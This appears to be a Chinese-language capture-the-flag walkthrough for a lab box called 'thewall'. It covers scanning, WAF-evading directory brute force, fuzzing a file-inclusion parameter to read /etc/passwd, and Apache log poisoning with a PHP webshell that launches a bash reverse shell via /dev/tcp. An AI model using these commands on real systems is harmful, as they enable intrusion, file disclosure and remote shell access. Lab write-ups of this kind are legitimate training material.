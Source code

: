 
|   |   |   |
|---|---|---|
|thewall|easy|Akamai  防火墙、绕过wall、fuzz、文件包含利用、exiftool提权、sudo提权、ssh私钥利用|

# 服务探测
```c
┌──(kali㉿kali)-[~]
└─$ sudo nmap -sV -A -T 4 -p 22,80 192.168.18.238 
```

22，80
### 目录扫描

由于目标靶场安装了Akamai  防火墙，正常的扫描会被拦截。所以使用gobuster扫描的时候增加延时和线程控制
```css
┌──(kali㉿kali)-[~]
└─$ gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://192.168.18.238 -x php -e --delay 1s -t 1 
```
这里扫描出来了一个文件包含名字的文件，尝试对其进行fuzz 参数。这里发现任何访问的响应都是200和长度为2，所以还需要设置排除项
```c
wfuzz -c --hc=404 --hh=2 -t 100 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u 'http://192.168.18.238/includes.php?FUZZ=/etc/passwd'
```

# GETSHELL
那我们可以尝试写入webshell到日志，然后取包含它

```c
┌──(kali㉿kali)-[~]
└─$ nc 192.168.18.238 80
GET <?php system($_GET['cmd']); ?>

http://192.168.18.238/includes.php?display_page=/var/log/apache2/access.log&cmd=bash+-c+%27bash+-i+%3E%26/dev/tcp/192.168.44.128/9001+0%3E%261%27
```
